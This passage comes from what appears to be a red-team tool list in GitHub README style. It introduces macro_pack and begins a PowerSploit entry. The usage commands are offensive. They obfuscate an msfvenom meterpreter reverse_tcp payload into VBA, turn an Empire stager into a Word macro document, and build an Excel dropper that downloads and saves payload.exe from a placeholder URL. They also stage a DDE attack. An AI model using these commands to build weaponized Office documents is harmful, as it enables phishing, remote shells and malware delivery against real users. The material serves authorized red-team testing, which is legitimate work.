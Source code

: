![image](https://user-images.githubusercontent.com/100603074/210077893-9d42cc2f-0ea0-414f-8103-42e29429321b.png)

### [🔙](#tool-list)[Macro_pack](https://github.com/sevagas/macro_pack)

A tool used to automatize the obfuscation and generation of Office documents, VB scripts, shortcuts, and other formats for red teaming.

**Install: (Binary)**

1. Get the latest binary from [https://github.com/sevagas/macro_pack/releases/](https://github.com/sevagas/macro_pack/releases/)
2. Download binary on PC with genuine Microsoft Office installed.
3. Open console, CD to binary dir and call the binary

**Install: (Git)**

```bash
git clone https://github.com/sevagas/macro_pack.git
cd macro_pack
pip3 install -r requirements.txt
```

**Usage:**

```bash
# Help Page
python3 macro_pack.py  --help

# List all supported file formats
macro_pack.exe --listformats

# Obfuscate the vba file generated by msfvenom and puts result in a new VBA file.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba

# Obfuscate Empire stager VBA file and generate a MS Word document:
macro_pack.exe -f empire.vba -o -G myDoc.docm

# Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm"

# Execute calc.exe via Dynamic Data Exchange (DDE) attack
echo calc.exe | macro_pack.exe --dde -G calc.xslx
```

![image](https://user-images.githubusercontent.com/100603074/209868800-7fbcfdec-8ae8-4693-8438-feebc2309667.png)

### [🔙](#tool-list)[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

A collection of PowerShell scripts and modules that can be used to achieve a variety of red teaming objectives.

